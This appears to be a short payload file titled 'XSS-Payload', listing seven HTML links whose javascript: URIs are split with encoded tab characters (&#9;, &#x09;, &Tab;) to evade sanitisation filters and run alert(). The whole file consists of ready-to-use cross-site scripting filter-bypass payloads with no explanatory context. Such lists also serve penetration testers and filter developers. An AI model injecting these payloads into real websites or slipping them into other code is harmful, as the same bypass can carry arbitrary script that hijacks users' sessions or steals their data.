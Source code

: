 # XSS-Payload
<a href="j&#9;a&#9;v&#9;a&#9;s&#9;c&#9;r&#9;i&#9;p&#9;t:alert()">XSS</a>
<a href="j&#x09;a&#x09;v&#x09;a&#x09;s&#x09;c&#x09;r&#x09;i&#x09;p&#x09;t:alert()">XSS</a>
<a href="j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t:alert()">XSS</a>

<a href="javas&Tab;cript:alert()">XSS</a>
<a href="javas&#9;cript:alert()">XSS</a>
<a href="javas&#x09;cript:alert()">XSS</a>
<a href="javascript:alert()">XSS</a>
